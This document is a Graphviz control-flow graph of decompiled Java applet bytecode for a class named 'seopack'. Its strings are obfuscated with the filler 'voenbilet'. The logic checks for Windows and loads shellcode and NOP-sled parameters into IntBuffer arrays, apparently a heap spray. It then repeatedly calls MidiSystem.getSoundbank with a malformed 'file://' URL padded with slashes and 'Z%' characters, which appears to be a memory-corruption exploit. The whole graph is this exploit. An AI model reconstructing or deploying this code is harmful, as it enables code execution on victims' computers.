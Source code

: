 digraph "" {
    "r0 := @this: seopack"
    "push 47"
    "r0 := @this: seopack"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "staticinvoke <seopack: java.lang.String repeat(char,int)>"
    "push 302"->"staticinvoke <seopack: java.lang.String repeat(char,int)>";
    "pop"
    "staticinvoke <seopack: java.lang.String repeat(char,int)>"->"pop";
    "push \"voenbiletovoenbiletsvoenbilet.voenbiletnvoenbiletavoenbiletmvoenbilete\""
    "pop"->"push \"voenbiletovoenbiletsvoenbilet.voenbiletnvoenbiletavoenbiletmvoenbilete\"";
    "push \"voenbilet\""
    "push \"voenbiletovoenbiletsvoenbilet.voenbiletnvoenbiletavoenbiletmvoenbilete\""->"push \"voenbilet\"";
    "push \"\""
    "push \"voenbilet\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"voenbiletwvoenbiletivoenbiletnvoenbilet\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"voenbiletwvoenbiletivoenbiletnvoenbilet\"";
    "push \"voenbiletwvoenbiletivoenbiletnvoenbilet\""->"push \"voenbilet\"";
    "push \"voenbilet\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt return"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt return";
    "iflt return"->"push 47";
    "push 47"->"push 302";
    "push 302"->"staticinvoke <seopack: java.lang.String repeat(char,int)>";
    "store.r r27"
    "staticinvoke <seopack: java.lang.String repeat(char,int)>"->"store.r r27";
    "goto new java.lang.StringBuilder"
    "store.r r27"->"goto new java.lang.StringBuilder";
    "new java.lang.StringBuilder"
    "goto new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"voenbiletfvoenbiletivoenbiletlvoenbiletevoenbilet:voenbilet/voenbilet/voenbilet\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"voenbiletfvoenbiletivoenbiletlvoenbiletevoenbilet:voenbilet/voenbilet/voenbilet\"";
    "push \"voenbiletfvoenbiletivoenbiletlvoenbiletevoenbilet:voenbilet/voenbilet/voenbilet\""->"push \"voenbilet\"";
    "push \"voenbilet\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r27"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r27";
    "load.r r27"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"voenbiletZvoenbilet%voenbiletZvoenbilet%voenbiletZvoenbilet%voenbiletZvoenbilet%voenbiletZvoenbilet%voenbiletZvoenbilet%voenbilet\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"voenbiletZvoenbilet%voenbiletZvoenbilet%voenbiletZvoenbilet%voenbiletZvoenbilet%voenbiletZvoenbilet%voenbiletZvoenbilet%voenbilet\"";
    "push \"voenbiletZvoenbilet%voenbiletZvoenbilet%voenbiletZvoenbilet%voenbiletZvoenbilet%voenbiletZvoenbilet%voenbiletZvoenbilet%voenbilet\""->"push \"voenbilet\"";
    "push \"voenbilet\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r27";
    "load.r r0"
    "store.r r27"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"voenbiletvoenbiletsvoenbiletvoenbiletcvoenbilet\""
    "load.r r0"->"push \"voenbiletvoenbiletsvoenbiletvoenbiletcvoenbilet\"";
    "push \"voenbiletvoenbiletsvoenbiletvoenbiletcvoenbilet\""->"push \"voenbilet\"";
    "push \"voenbilet\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <seopack: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <seopack: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <seopack: java.lang.String getParameter(java.lang.String)>"->"load.r r0";
    "push \"voenbiletnvoenbiletpvoenbilet\""
    "load.r r0"->"push \"voenbiletnvoenbiletpvoenbilet\"";
    "push \"voenbiletnvoenbiletpvoenbilet\""->"push \"voenbilet\"";
    "push \"voenbilet\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <seopack: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <seopack: java.nio.IntBuffer[] __w(java.lang.String,java.lang.String)>"
    "virtualinvoke <seopack: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <seopack: java.nio.IntBuffer[] __w(java.lang.String,java.lang.String)>";
    "fieldput <seopack: java.nio.IntBuffer[] __b>"
    "virtualinvoke <seopack: java.nio.IntBuffer[] __w(java.lang.String,java.lang.String)>"->"fieldput <seopack: java.nio.IntBuffer[] __b>";
    "new java.net.URL"
    "fieldput <seopack: java.nio.IntBuffer[] __b>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r27";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r27"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"->"pop";
    "push 10L"
    "pop"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "store.r r0"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "iflt return"->"return";
}
